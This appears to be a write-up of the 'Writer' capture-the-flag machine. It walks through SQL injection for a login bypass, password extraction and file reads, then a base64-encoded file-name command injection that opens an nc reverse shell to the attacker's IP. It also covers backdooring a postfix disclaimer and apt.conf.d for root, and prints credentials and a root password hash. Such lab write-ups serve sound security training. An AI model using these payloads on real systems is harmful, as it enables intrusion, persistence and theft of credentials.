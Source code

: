 # Writer

![Writer.png](Writer/Writer.png)

### 08/27/2021

Nmap scan

```java
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-27 19:44 -03
Nmap scan report for 10.10.11.101
Host is up (0.42s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.31 seconds
```

Trying SQL-injection:

![Untitled](Writer/Untitled.png)

Directory scan

![Untitled](Writer/Untitled%201.png)

```java
========================================= 
|    Share Enumeration on 10.10.11.101    |
 ========================================= 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	writer2_project Disk      
	IPC$            IPC       IPC Service (writer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Because the SQL Injection bypass login page, we can try a boolean condition to discover admin password in burp suite: 

![Untitled](Writer/Untitled%202.png)

![Untitled](Writer/Untitled%203.png)

```java
1'+or+exists(SELECT+1+FROM+users+where+username+%3d+'admin'+and+password+like+'§a§%'+limit+1)--+x
118e48794631a9612484ca8b55f622d0
118e48794631a9612484ca8b55f622d0
```

Defining number of columns in database:

```java
sid' UNION ALL SELECT 1,2,3,4,5,6;
```

Analyzing the requests we can known that in Welcome message, it shows welcome 1 when we send 0 to 5 and two when we send 1 to 6.

![Untitled](Writer/Untitled%204.png)

It shows writer.wsgi and this file have information about python. This is a interface between application server to make a connection with python django. 

Database version:

![Untitled](Writer/Untitled%205.png)

![Untitled](Writer/Untitled%206.png)

This file import the __ init __ .py from web folder. 

![Untitled](Writer/Untitled%207.png)

```java
/var/www/writer.htb/writer/__init__.py
Db credential: admin | ToughPasswordToCrack&
```

Let's to analyze that file to search for interesting things:

![Untitled](Writer/Untitled%208.png)

![Untitled](Writer/Untitled%209.png)

In this way we can create a reverse-shell without spaces.

![Untitled](Writer/Untitled%2010.png)

```java
a.jpg&&echo${IFS}bmMgMTAuMTAuMTQuNDIgMTIzNA==|base64${IFS}-d|bash;.jpg
# Using hex format
X=$'cat\x20/etc/passwd'&&$X

exploit.jpg;bmMgMTAuMTAuMTQuNDIgMTIzNA==|base64$(foo)-d|bash
a.jpg&&echo${IFS}bmMgMTAuMTAuMTQuNDIgMTIzNA==|base64${IFS}-d|bash;.jpg
```

The files are saved with random name like: 

![Untitled](Writer/Untitled%2011.png)

Dumping files from the machine:

![Untitled](Writer/Untitled%2012.png)

```java
uname='UNION ALL SELECT 1,LOAD_FILE('/var/www/writer.htb/writer/templates/settings.html'),3,4,5,6-- X&password=%27or+1%3D1--+x
```

![Untitled](Writer/Untitled%2013.png)

**Tables**

site, stories, user

**User**

Columns:

```python
uname='union all select 1,COLUMN_NAME,3,4,5,6 from information_schema.columns where table_name='users'-- x&password=1
#Output id,username,password,email,status,date_created
```

**Stories**

Columns:

```python
id,author,title,tagline,content,status,date,image
```

**Site**

Columns:

```python
id,title,description,logo,favicon,ganalytics
```

### Code review

This review will be made separated with sections, each section contains a image and the review of the block:

![Untitled](Writer/Untitled%2014.png)

The flask app sends the SQL query to the HTML page render stories. 

![Untitled](Writer/Untitled%2015.png)

After read the code many times, i didn't find the vulnerability, so i craft the local website to try decode executions:

![Untitled](Writer/Untitled%2016.png)

The idea was enter in each statement  and set a print, so with this we can debug what occurs in the application:

![Untitled](Writer/Untitled%2017.png)

So when send a simple image this shows that we are in first statement without se a image_url

![Untitled](Writer/Untitled%2018.png)

Into the exception camp, so we have to set.jpg in hellohelo phrase.

![Untitled](Writer/Untitled%2019.png)

Find a way to exit of this exception:

![Untitled](Writer/Untitled%2020.png)

I known that this file_name has to be a external url.

![Untitled](Writer/Untitled%2021.png)

So the image variable is all of the things into the file data url:

![Untitled](Writer/Untitled%2022.png)

Uploading the malicious file with the payload:

![Untitled](Writer/Untitled%2023.png)

Now in the image_url as you know, we will call the malicious file and execute the reverse shell. 

After many tries, I knew that you must have to send the payload in both parameters.

![Untitled](Writer/Untitled%2024.png)

Database credentials.

![Untitled](Writer/Untitled%2025.png)

In the folder of writer v2 has a settings file with credentials.

![Untitled](Writer/Untitled%2026.png)

And a path of the configuration file.

![Untitled](Writer/Untitled%2027.png)

Reading this file, it has database credentials. 

![Untitled](Writer/Untitled%2028.png)

Get the password in database and crack it.

Based on the groups we search to files with permissions.

![Untitled](Writer/Untitled%2029.png)

Editing the disclaimer with a reverse shell inside it.

![Untitled](Writer/Untitled%2030.png)

![Untitled](Writer/Untitled%2031.png)

Open ports:

![Untitled](Writer/Untitled%2032.png)

The port 25 is the port of email postfix

When you perform the mail, the disclaimer is executed.

![Untitled](Writer/Untitled%2033.png)

Now in the apt.conf.d we will write a persistent script.

Reverse shell

![Untitled](Writer/Untitled%2034.png)

After that we get the root access

![Untitled](Writer/Untitled%2035.png)

```python
root:$6$gev1Op0YfgboE7iR$iMNbP.8qic/SzTr4atxwLbkI7nScyZWJPbTgoXAlEz5Hcw3Ntget9j3p.iccPcw5Jl4dj4bHWZ5LvoLLNC8iB.:18816:0:99999:7:::
```
